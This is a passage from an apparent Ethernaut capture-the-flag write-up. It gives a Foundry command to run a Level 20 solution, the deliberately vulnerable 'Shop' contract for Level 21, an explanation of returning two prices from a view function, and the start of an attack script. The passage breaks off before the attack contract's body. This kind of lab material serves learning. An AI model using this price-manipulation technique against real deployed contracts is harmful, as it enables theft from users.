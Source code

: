 **To run the script**

```
$ source .env
$ forge script script/Level20Solution.s.sol:Level20Sol --rpc-url $RPC_URL --broadcast
```

## Shop

**Level21.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

**Goal:**

Сan you get the item from the shop for less than the price asked?

**Explanation:**

1. This is similar to the Elevator challenge. Elevator uses a an external normal function to call.
2. But here `price()` should a view function. Which shouldn’t modify the storage of the contract.
3. So, we cant just keep the number of the calls to the `price()` function in our Attack contract.
4. We can make use of `isSold` variable to check that the `price()` is called or not. This can be acceptable inside a view function.
5. So, I wrote Attack contract with `price()` function defined as view and it returns two different price values for the initial call and second call.

**Level21Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Shop} from "../src/Level21.sol";

contract Level21Sol is Script{
    Shop public instance = Shop(0x0a21654f3EA8917a109E09C32eC3aAF814e8d665);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Attack().exploit();
        vm.stopBroadcast();
    }
}

contract Attack{
```